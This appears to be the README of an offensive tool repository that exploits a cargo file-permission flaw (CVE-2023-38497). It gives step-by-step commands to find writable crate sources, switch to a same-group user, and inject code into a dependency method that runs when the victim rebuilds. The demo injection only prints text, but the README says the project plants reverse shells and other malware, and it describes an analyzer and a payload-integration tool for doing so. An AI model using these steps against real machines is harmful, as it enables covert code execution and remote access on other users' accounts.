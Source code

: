 
## Description
A new vulnerability in cargo version `1.7.0` has been found as explained [here](https://blog.rust-lang.org/2023/08/03/cve-2023-38497.html).

## Step by Step

First you have to make sure your cargo version is vulnerable

`cargo --version`

Supose I have a cargo project with the following `src/main.rs` file:

```
use num_bigint::BigInt;
use std::str::FromStr;

// Silly guessing game
fn main() {
    let secret_number = BigInt::from_str("123456789");
    loop {
        println!("Make a guess: ");
        let mut guess = String::new();
        std::io::stdin()
            .read_line(&mut guess)
            .expect("Error reading stdin");
        let guess = BigInt::from_str(guess.trim());
        if guess == secret_number {
            println!("That's right");
            break;
        }
    }
}
```

If I run the program:
```
cargo run
Make a guess:
20
Make a guess:
123456789
That's right!
```

Nothing wrong here.

Next, for all installed crates in your system, filter the ones whose permissions have bad configuration, that is, can be written by group or any other machine users

`find ~/.cargo/registry/src/* -type f -writable -print | egrep "*\.rs"`

This will yield a list of all vulnerable rust source files. From these chose the file that is suitable for your attack, which should be one in which there is defined a method that is used in the source code of the target cargo project.

And from the listing above I find the following vulnerable file: 

`$HOME/.cargo/registry/src/index.crates.io-.../num-bigint-0.1.44/src/bigint.rs`

Which as promised previously has the following permissions: `-rw-rw-r--`

Therefore it can be modified by any user in the same group as the cargo project owner, that's scary. But imagine any user could write that file, well there are crates with such permissions.

Now you can add a new user to your machine, or use an existing one other than the project user which belongs to the same group as the user for the file we're targeting. For example that source file in my machine has the following owner and group
`atreides people`
and another user I have, returns the following from running `id` command on him:

`uid=54322(bob) gid=54331(bob) groups=54331(bob),1000(people)`

Now we know user `bob` can write our target file and any other with such permissions. Switch to `bob` and follow up.

Taking a look into our guessing game we can see it is being used the `from_str` method from `BigInt` struct. That could be an interesting method to look at.

From the target file I've extracted this piece of code: 
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        BigInt::from_str_radix(s, 10)
    }
}
```

Now, what if you make it look like this
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        println!("Message from beyond");
        BigInt::from_str_radix(s, 10)
    }
}
```

And rerun it:
```
cargo run
Make a guess:
20
Message from beyond
Make a guess:
123456789
Message from beyond
That's right!
```

Woah! Imagine you are writting your cargo project and you get the following messages.

Note that this will only happen whenever the target directory has been deleted previously, that is, cargo has to compile the crate after you modify the source file.

Now, this is only a demo on how to exploit this vulnerability, but imagine if you place any sort of payload inside a source file. This repo aims to establish reverse shell connection with the user's account whenever he runs a cargo project.

This is a mayor vulnerability if you consider that there could be cargo installations with root privileges so the placed payload would be executing with such permissions.

# Project Structure

In this project you will find the following utilities:

## Vulnerability analyzer

Searches accross the local cargo archive and a target cargo project to find all specific methods that could be exploited in the target's source code.

### Usage

```
./vanalyzer/run.sh <target-project-path> <target-username>
```

## Available payloads

All payload types (reverse shell mainly and other malware) that can be placed inside a target crate source code. All available payloads as of now are:

- Reverse Shell (first that will be implemented)

## Integration

Takes one of the payloads listed above and a selected method to exploit from the vulnerability analyzer and integrates (copy and paste) the payload into the source code.
